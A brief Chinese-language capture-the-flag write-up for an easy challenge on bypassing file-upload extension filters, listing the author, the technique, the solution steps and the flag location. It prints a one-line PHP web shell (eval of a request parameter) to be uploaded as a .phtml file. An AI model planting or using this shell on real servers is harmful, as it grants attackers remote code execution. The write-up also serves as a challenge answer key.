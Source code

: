 - 出题人: xidaner
- 难度: 简单
- 考点: 文件上传后缀绕过
- 解法:

    爆破文件上传后缀名，查看是否存在可上传的文件后缀名, 是否会使用一句话连接目标。上传 phtml 一句话马连接即可。
    ```php
    <script language="php">eval($_REQUEST[shell])</script>
    ```
- flag: flag 在根目录 flag.txt
- 注意点: 无